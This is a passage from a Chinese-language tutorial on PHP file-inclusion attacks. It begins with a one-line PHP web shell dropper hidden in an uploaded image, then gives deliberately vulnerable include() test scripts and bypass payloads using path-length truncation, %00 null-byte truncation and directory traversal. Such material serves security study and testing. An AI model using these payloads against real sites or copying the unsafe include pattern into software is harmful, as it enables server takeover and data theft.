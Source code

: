 <?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?> 

然后访问URL：http://www.xxxx.com/index.php?page=./upload/201811.jpg，包含这张图片，将会在index.php所在的目录下生成shell.php


##  绕过类型
###  指定后缀绕过
测试代码
```php
<?php
	error_reporting(0);
	$file = $_GET["file"];
	//后缀
	include $file.".txt";

	highlight_file(__FILE__);
?>
```
###  利用长度截断
```
利用条件：
php版本 < php 5.2.8

原理：
Windows下目录最大长度为256字节，超出的部分会被丢弃
Linux下目录最大长度为4096字节，超出的部分会被丢弃。

利用方法：
只需要不断的重复 ./(Windows系统下也可以直接用 . 截断)
  ?file=./././。。。省略。。。././shell.php
则指定的后缀.txt会在达到最大值后会被直接丢弃掉
```
### %00截断
```
利用条件：
magic_quotes_gpc = Off
php版本 < php 5.3.4

利用方法：
直接在文件名的最后加上%00来截断指定的后缀名
  ?file=shell.php%00
```
###  url
url格式：
```
protocol :// hostname[:port] / path / [;parameters][?query]#fragment
```
远程文件包含中，可以使用URL的query和fragment
参考文献
https://blog.csdn.net/qq_42181428/article/details/87090539
##  指定前缀截断
###  目录遍历
测试代码
```php
<?php
	error_reporting(0);
	$file = $_GET["file"];
	//前缀
	include "/var/www/html/".$file;

	highlight_file(__FILE__);
```